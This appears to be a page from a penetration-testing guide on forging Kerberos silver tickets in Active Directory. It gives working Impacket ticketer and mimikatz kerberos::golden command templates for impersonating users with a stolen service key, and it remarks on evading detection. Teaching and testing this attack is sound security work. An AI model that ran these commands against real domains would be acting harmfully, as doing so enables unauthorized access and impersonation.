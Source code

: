 # Silver tickets

## Theory

The long-term key of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](../ptt.md) to access that service. In a Silver Ticket scenario, an attacker will forge a Service Ticket containing a PAC that features arbitrary information about the requesting user, effectively granting lots of access.

## Practice

{% hint style="info" %}
When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.
{% endhint %}

In order to craft a silver ticket, testers need to find the target service account's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). This can be done by [capturing an NTLM response](../../ntlm/capture.md) (preferably NTLMv1) and [cracking](../../credentials/cracking.md) it, by [dumping LSA secrets](../../credentials/dumping/sam-and-lsa-secrets.md), by doing a [DCSync](../../credentials/dumping/dcsync.md), etc.

_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." (_[_adsecurity.org_](https://adsecurity.org/?p=2011)_)_

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket with [`kerberos::golden`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden). Testers need to carefully choose the right SPN type (cifs, http, ldap, host, rpcss) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](../ptt.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
A great, stealthier, alternative is to [abuse S4U2self](../delegations/s4u2self-abuse.md) in order to impersonate a domain user with local admin privileges on the target machine by relying on Kerberos delegation instead of forging everything.
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=2011" %}
